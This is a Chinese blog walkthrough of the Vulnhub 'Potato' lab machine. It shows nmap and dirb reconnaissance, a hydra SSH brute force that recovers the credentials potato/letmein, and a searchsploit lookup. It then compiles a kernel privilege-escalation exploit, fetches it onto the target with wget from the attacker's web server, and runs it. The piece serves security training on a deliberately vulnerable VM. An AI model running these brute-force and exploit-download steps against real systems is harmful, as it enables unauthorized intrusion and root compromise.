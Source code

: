 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483839&idx=1&sn=ae6633a9411e9e57a8390b5bba2e5e82&chksm=eb4ec802dc39411410a931b6a1cfd6593814bf6755c6ef970c795ee5740bfdca6c8ea0ebd505&mpshare=1&scene=23&srcid=1206r7ubjZPDzODeXxlnw44o&sharer_sharetime=1607243630492&sharer_shareid=63b7ebf9aba7281f878ee398cec8f649#rd)

点击蓝字，关注我们

0x00 靶机信息

靶机：Potato  

难度：简单

Vulnhub 下载: 

https://www.vulnhub.com/entry/potato-suncsr-1,556/

公众号回复：Potato （获取国内不限速下载链接）

0x01 信息收集

Nmap 扫描当前网段，寻找目标靶机 IP  

```
Nmap -sP 192.168.12.1/24
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2CfEkO3Z7uZMQH9PvMnUyytddUSxEWwSy8RF1D8MILuUGfmMocdxMibAA/640?wx_fmt=png)

Nmap 扫描端口

```
Nmap -p 1-65535 192.168.12.131
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2Cylz99ibSJcKM4OLxMbwDNghfXcbUGHoBe1WvApyFg7swnaChjKREfbw/640?wx_fmt=png)

只开放了 80，7120 端口

Dirb 扫描目录

```
Dirb http://192.168.12.131
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2C0mcbKJkOOZNVjVEdXiapI2iaiaoJywiboCiaqMUABETpn1SrAoJbWOsOXxQ/640?wx_fmt=png)

发现存在 info.php

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2Cw8h3WVxP5RiauR4ibbTtCBCfcGFmPw9aYsQBicQ7H4rtshBz9abl1DJWQ/640?wx_fmt=png)

看了一会没有发现什么利用点，转向一个未知的 7120 端口

折腾好一会，发现是 ssh 端口

```
ssh -p 7120 root@192.168.12.131
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2CRyc2K3wSNQfNXkk9OVOZq6F6e2xf84IvPfdW1x6qaibgq9CNEOgPvXg/640?wx_fmt=png)

0x02 漏洞利用

直接开始爆破  

```
hydra -l potato -P /usr/share/wordlists/rockyou.txt -vV ssh://192.168.12.131:7120
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2CtD16glMnPlJCRol7TdG9bJcvWVqBBox7SdeaZU4lbzCghpsocCBb7A/640?wx_fmt=png)

```
用户名：potato
密码：letmein
```

查看内核版本

```
uname -a
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2C4PnhkK33svhwTJ6lQsj6QGsIq91dWysiaFzITTd5ZnSMMGOW43SPCFg/640?wx_fmt=png)

查找相关漏洞

```
searchsploit ubuntu 3.13.0
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2CBIZKGMhq6ksRcLgIeDaMabIx6aHejKAdY3MwbCiciaHjtPic0MLlzRiaxQ/640?wx_fmt=png)

第一个符合条件，开始利用

编译 exp

```
gcc /usr/share/exploitdb/exploits/linux/local/37292.c -o exp
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2CQI5Tt1Cic6A4yoOuFvKLw8B0NicuaAaVibP9qCFHoUgVu5mmqnVqFxH0Q/640?wx_fmt=png)

0x03 提权

开启 apache2，将 exp 放到网站目录下  

```
service apache2 start
cp exp /var/www/html
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2Crz8iaiauETxcRwqNsCibiaxjBNxrVQs7y3ryXqVRibUp0bYfVDZ7eKSDiatQ/640?wx_fmt=png)

Wget 下载 exp

```
wget http://192.168.12.130/exp
```

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2CehTSto5ic5CxhNicC0gPqN0j1JIJickQ9Wl5G2yJzRye2lB2GT0UdcqbA/640?wx_fmt=png)

执行 exp

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2CdEbwzCHGw6xupkCqRsqgtYicp8qUOmiclCyCzfkxIhCGbJW2gicjLgbicA/640?wx_fmt=png)

得到 flag

![](https://mmbiz.qpic.cn/mmbiz_png/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2Ck2uUpKu7NFNWFoaSVSOg1Tic512PRSHiaArbq1PUiaIoicaW59wZKxsDaw/640?wx_fmt=png)

 **往期推荐 ·**

  

[Vulnhub 篇 Tomato](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483796&idx=1&sn=1f7ec28258d61d2761627582e8d8ad0e&chksm=eb4ec829dc39413f8a4af153eac211f41d38a23f2823e92037417deea95ecd9aedf57f4a8d29&scene=21#wechat_redirect)  

[Vulnhub 篇 chili](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483773&idx=1&sn=6d0e5dc2f04a1cec1f01b4848a4a1582&chksm=eb4ec8c0dc3941d638f47dcb06959d7ae311a9d5a8d38780f397f899f31766bbadb3606f3f18&scene=21#wechat_redirect)  

[Vulnhub 篇 presidential:1](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483700&idx=1&sn=5a54f2be75bd9bdf0d3a84367ea8afb2&chksm=eb4ec889dc39419f55e446dafd3e5aa26379cbc24b048b3d7624a3fb510ad87847b828b6e1b4&scene=21#wechat_redirect)  

[Vulnhub 篇 Photographerr:1](http://mp.weixin.qq.com/s?__biz=MzI3ODkyOTYxOA==&mid=2247483673&idx=1&sn=c1f22eebcf5affb13ae324af7a030449&chksm=eb4ec8a4dc3941b21b2078a6e5d84462ac0ae5253b9176c12d9e3d53539ba27e2d8fbe36f85f&scene=21#wechat_redirect)  

![](https://mmbiz.qpic.cn/mmbiz_gif/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2CG6BmCEH2V6oy6icp4IePbsGgfp30jfAgV0tJEAbiaxI3Jp5yKzXrgpcA/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_jpg/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2CG7ib1PL3DFiaQsVDEuMzmzJeX72aMiboWBnK9UZDB9moxz5jkcdI4Lzyg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/F3c71CW7Csfy7icibRNyiboanAJIPZeDo2CiarqWFvTITLPNL2oFMGx6nIkZK14NVDoU4y98naKJeibFnMNPpodVRfw/640?wx_fmt=gif)

长按识别二维码关注我们